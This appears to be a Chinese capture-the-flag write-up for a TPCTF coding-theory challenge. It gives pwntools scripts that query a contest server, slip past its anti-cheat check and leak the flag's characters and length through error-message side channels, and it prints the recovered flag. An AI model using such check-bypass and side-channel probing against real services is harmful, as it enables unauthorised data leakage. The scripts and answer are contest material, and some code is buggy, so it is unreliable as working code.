书接上文，我们现在有 500 个长度为 10 的 A 函数和 500 个长度为 10 的 B 函数，lv2 中检测可以绕过，而显示又再次产生，难道说？按捺住激动的心情，我们再次罗列本题的特性：

① 检测大概率可通过

②B 的统一性检测

③C 的长度检测，要求小于等于 120bit

④A[i]是否与 funcB 中的 B[i]C[i]操作后的元素 A 数值相同的判断

⑤ 前 10 次随机仅对 flag 包裹内容进行随机，作用为防止绕过 TPCTF 部分的检测

那么先考虑绕过检测开始偷信息呗，前面有防止绕过检测的部分，然而它的位仍然是固定的，加上包裹为 31 位。那么我们只需要判断 >>30*8 后第 31 位是否为 T，如果 flag 长度与检测长度不同，就能够测出来（但是估计不会有这样的空子，所以本题的 flag 应该就是 31 位），总之先尝试一下——说不定呢？

```python
from pwn import *
import numpy as np

context.log_level = 'debug'

fl = []
for i in range(32,127):
    flag = 0
    while flag == 0:
        p = remote("202.112.238.82", 13372)
        p.recvuntil(b'Level: ')
        p.sendline(b'2')
        p.recvuntil(b'Enter your function A:\n')
        #情况一:24位短flag（对应测试2）
        p.sendline(b'C=A>>192')
        p.sendline(b'C=C==0')
        p.sendline(b'D=A>>32')
        p.sendline(b'D=D%256')
        p.sendline(b'C=D*C')
        #情况二:T字开头,且位于31位第一位,假设flag长度不为31
        p.sendline(b'F=A>>240')
        p.sendline(b'F=F==84')
        p.sendline(b'D=A>>48')
        p.sendline(b'D=D%256')
        p.sendline(b'F=D*F')

        p.sendline(b'T=A%256')
        p.sendline(f'T=T!={i}'.encode())
        p.sendline(f'B=F+C')
        p.sendline(f'B=B+T')
        p.sendline(b'EOF')
        p.recvuntil(b'Enter your function B:\n')
        p.sendline(b'EOF')
        a = p.recvline()
        if b'Traceback' in a:
            p.recvline()
            p.recvline()
            p.recvline()
            k = p.recvline()
            if b'cheat' not in k:
                flag = 1
            if b'results' in k:
                fl.append(chr(i))

print(fl)
```

绕过成功！flag 的长度还真的不是 31 位，那就又回到第一种情况了

```python
['0', '1', '3', '4', 'C', 'F', 'P', 'T', '_', 'c', 'd', 'h', 'm', 'r', 's', 'w', '{', '}']
```

开爆长度

```python
from pwn import *
import numpy as np

context.log_level = 'debug'

fl = ['0', '1', '3', '4', 'C', 'F', 'P', 'T', '_', 'c', 'd', 'h', 'm', 'r', 's', 'w', '{', '}']
for i in range(len(fl),31):
    flag = 0
    while flag == 0:
        p = remote("202.112.238.82", 13372)
        p.recvuntil(b'Level: ')
        p.sendline(b'2')
        p.recvuntil(b'Enter your function A:\n')
        #情况一:24位短flag（对应测试2）
        p.sendline(b'C=A>>192')
        p.sendline(b'C=C==0')
        a = random.randint(130,999)
        p.sendline(b'D=A>>32')
        p.sendline(b'D=D%256')
        p.sendline(b'C=D*C')
        #情况二:T字开头,且位于31位第一位,假设flag长度不为31
        p.sendline(b'F=A>>240')
        p.sendline(b'F=F==84')
        a = random.randint(130,999)
        p.sendline(b'D=A>>48')
        p.sendline(b'D=D%256')
        p.sendline(b'F=D*F')

        p.sendline(f'T=A>>{8*i}'.encode())
        p.sendline(f'B=F+C')
        p.sendline(f'B=B+T')
        p.sendline(b'EOF')
        p.recvuntil(b'Enter your function B:\n')
        p.sendline(b'EOF')
        a = p.recvline()
        if b'Traceback' in a:
            p.recvline()
            p.recvline()
            p.recvline()
            k = p.recvline()
            if b'cheat' not in k:
                flag = 1
            if b'results' in k:
                print(i,'!!!')

print(fl)
```

len(flag)=28。

爆重复的字母

```python
from pwn import *
import numpy as np

fl = ['0', '1', '3', '4', 'C', 'F', 'P', 'T', '_', 'c', 'd', 'h', 'm', 'r', 's', 'w', '{', '}']

Tf = []
for _ in range(len(fl)):
    ff = 0
    for i in range(10):
        flag = 0
        if ff == 1:
            break
        while flag == 0:
            p = remote("202.112.238.82", 13372)
            p.recvuntil(b'Level: ')
            p.sendline(b'2')
            p.recvuntil(b'Enter your function A:\n')
            #情况一:24位短flag（对应测试2）
            p.sendline(b'C=A>>192')
            p.sendline(b'C=C==0')
            a = random.randint(130,999)
            p.sendline(b'D=A>>32')
            p.sendline(b'D=D%256')
            p.sendline(b'C=D*C')
            #情况二:T字开头,且位于31位第一位,假设flag长度不为31
            p.sendline(b'F=A>>240')
            p.sendline(b'F=F==84')
            a = random.randint(130,999)
            p.sendline(b'D=A>>48')
            p.sendline(b'D=D%256')
            p.sendline(b'F=D*F')

            p.sendline(b'A=A>>8')
            p.sendline(b'T=A%256')
            p.sendline(b'A=A>>8')
            p.sendline(b'P=A%256')
            p.sendline(b'Q=T==P')
            p.sendline(f'R=T=={ord(fl[_])}'.encode())
            p.sendline(b'B=Q*R')
            p.sendline(b'B=B+F')
            p.sendline(b'B=B+C')
            p.sendline(b'EOF')
            p.recvuntil(b'Enter your function B:\n')
            p.sendline(b'EOF')
            a = p.recvline()
            if b'Traceback' in a:
                p.recvline()
                p.recvline()
                p.recvline()
                k = p.recvline()
                if b'cheat' not in k:
                    flag = 1
                if b'results' in k :
                    Tf.append(fl[_])
                    print(Tf)
                    ff = 1

print(Tf)
```

```python
['0', '1', '3', 'T', '_', 'm', 's']
```

那么就把测信道的思路贯彻到底，我们前面利用了 100 次当中很大概率出现 29 位中的一个字符这个特点去判断 flag 中存在的字符，换个角度想，我们可以通过排除法对一个 byte 上的可能性直接排除到底，而目前我们已经初步缩小了排除的空间，由于在 a[0]的时候，本题是直接使用未打乱的 flag 进行加密，所以除了当前位置的 flag，其他位 flag 串门可能性都是概率性的，我们可以利用这种性质直接对着字符表把 flag 一位一位映射出来。

不过这种想法想了下感觉不太可能实现，原因在于，对于有所重复的字符，用概率论算了下，它们在 100 次交互里不出现在当前位置的可能性奇低无比。



如果遍历 10 次，有 0.006 的概率出现，500 次有 0.26 的概率出现，对于交互的次数要求太高了。

那么继续分析用 c 对 flag 进行泄露。flag 长度为 248bit，c 不能够超过 120bit，并且需要保证 b 和 c 能够还原出 a 的运算结果，才能对 c 的头部进行泄露。算了下，18**28 正好比 2**120 低一些些



那么我们就用 c 来表示 flag 对于 flag 字符集的构成，18 进制上的每一位表示 flag 的一位在字符集中的位置。再看看泄露 c 高位能够做到什么：我们可以通过改变 funB 泄露 c 的不同位数，最终达到完全泄露 c 的目的。

好了开搞

```python
from pwn import *
import numpy as np

abt = 'EFGHIJKLMNOPQRSTUV'

for i in range(32,127):
    flag = 0
    while flag == 0:
        p = remote("202.112.238.82", 13372)
        p.recvuntil(b'Level: ')
        p.sendline(b'2')
        p.recvuntil(b'Enter your function A:\n')
        #情况一:24位短flag（对应测试2）
        p.sendline(b'C=A>>192')
        p.sendline(b'C=C==0')
        a = random.randint(130,999)
        p.sendline(b'D=A>>32')
        p.sendline(b'D=D%256')
        p.sendline(b'C=D*C')
        #情况二:T字开头,且位于31位第一位,假设flag长度不为31
        p.sendline(b'F=A>>240')
        p.sendline(b'F=F==84')
        a = random.randint(130,999)
        p.sendline(b'D=A>>48')
        p.sendline(b'D=D%256')
        p.sendline(b'F=D*F')
        
        for i in range(28):
            p.sendline(b'B=A%256')
            p.sendline(b'C=C*18')
            for _ in range(len(abt)):
                p.sendline(f'{abt[_]}=B=={fl[_]}'.encode())
                p.sendline(f'{abt[_]}={abt[_]}*{_}'.encode())
                p.sendline(f'D=D+{abt[_]}'.encode())
            p.sendline(b'C=C+D')
            p.sendline(b'A=A>>8')

        p.sendline(b'B=0')
        p.sendline(b'EOF')
        
        p.recvuntil(b'Enter your function B:\n')
        for i in range(28):
            p.sendline(b'B=C%18')
            p.sendline(b'A=A*256')
            for _ in range(len(abt)):
                p.sendline(f'{abt[_]}=B=={_}'.encode())
                p.sendline(f'{abt[_]}={abt[_]}*{fl[_]}'.encode())
                p.sendline(f'D=D+{abt[_]}'.encode())
            p.sendline(b'A=A+D')
            p.sendline(b'C=C/18')
    
        p.sendline(b'EOF')
        a = p.recvline()
        if b'Traceback' in a:
            p.recvline()
            p.recvline()
            p.recvline()
            k = p.recvline()
            if b'cheat' not in k:
                flag = 1
            if b'results' in k and chr(i) not in fl:
                fl.append(chr(i))

print(fl)
```

有点太多了，28*18*3+28*4+10 超过 500。那又回到之前的思路，在前 10 次固定了 TPCTF，所以我们只拉前 10 次的数据进行观察，通过固定前 6 位为 TPCTF{的方式把其他数据进行舍弃，这样就可以在 10 次交互做到几乎 1 的概率排除错误选项。





做到这里突然发现之前长度测量错了，其实读出来的结果应该是 29，不过对前面的部分影响也不是特别大。

```python
from pwn import *
import numpy as np

fl = ['0', '1', '3', '4', 'C', 'F', 'P', 'T', '_', 'c', 'd', 'h', 'm', 'r', 's', 'w', '{', '}']

abt = b'TPCTF{'

for kk in range(2,30):
    flp = []
    for i in range(len(fl)):
        jd = 1
        for _ in range(10):
            flag = 0
            if jd == 0:
                break
            while flag == 0:
                p = remote("202.112.238.82", 13372)
                p.recvuntil(b'Level: ')
                p.sendline(b'2')
                p.recvuntil(b'Enter your function A:\n')
                #情况一:24位短flag（对应测试2）
                p.sendline(b'C=A>>192')
                p.sendline(b'C=C==0')
                a = random.randint(130,999)
                p.sendline(b'D=A>>32')
                p.sendline(b'D=D%256')
                p.sendline(b'C=D*C')
                #情况二:T字开头,且位于31位第一位,假设flag长度不为31
                p.sendline(b'F=A>>240')
                p.sendline(b'F=F==84')
                a = random.randint(130,999)
                p.sendline(b'D=A>>48')
                p.sendline(b'D=D%256')
                p.sendline(b'F=D*F')

                p.sendline(f'Z=A>>{8*kk}'.encode())
                p.sendline(b'T=Z%256')
                p.sendline(f'T=T=={ord(fl[i])}'.encode())

                p.sendline(b'K=A>>184')
                p.sendline(b'L=K%256')
                p.sendline(f'L=L=={abt[5]}'.encode())
                p.sendline(b'T=T*L')

                p.sendline(b'K=K>>8')
                p.sendline(b'L=K%256')
                p.sendline(f'L=L=={abt[4]}'.encode())
                p.sendline(b'T=T*L')

                p.sendline(b'K=K>>8')
                p.sendline(b'L=K%256')
                p.sendline(f'L=L=={abt[3]}'.encode())
                p.sendline(b'T=T*L')

                p.sendline(b'K=K>>8')
                p.sendline(b'L=K%256')
                p.sendline(f'L=L=={abt[2]}'.encode())
                p.sendline(b'T=T*L')

                p.sendline(b'K=K>>8')
                p.sendline(b'L=K%256')
                p.sendline(f'L=L=={abt[1]}'.encode())
                p.sendline(b'T=T*L')

                p.sendline(b'K=K>>8')
                p.sendline(b'L=K%256')
                p.sendline(f'L=L=={abt[0]}'.encode())
                p.sendline(b'T=T*L')

                p.sendline(b'B=F+C')
                p.sendline(b'B=B+T')
                p.sendline(b'EOF')
                p.recvuntil(b'Enter your function B:\n')
                p.sendline(b'EOF')
                a = p.recvline()
                if b'Traceback' in a:
                    p.recvline()
                    p.recvline()
                    p.recvline()
                    k = p.recvline()
                    if b'cheat' not in k:
                        flag = 1
                        if b'results' not in k:
                            jd = 0
                            break
        if jd == 1:
            flp.append(fl[i])

    print(flp,'!!!')
```

ok 准备收 flag

```python
TPCTF{13hm3r_c0d3_1s_4w3s0m3}
['h']  ['3', 'm'] ['3'] ['r']  20 ['3', '_', 'h', 's'] 19 ['3', 'm']
10 ['1'] 11 ['_'] 12 ['3'] 13 ['d'] 14 ['0']  17 ['r'] 18 ['3'] 20 ['h'] 21 ['3']

字符集：['0134CFPT_cdhmrsw{}']
出现多次的字符：['0', '1', '3', 'T', '_', 'm', 's']
```

真没想到最后还是以这种方式结束了这个题，早知道就早点继续测信道了。

看 flag 果然是编码论的知识。
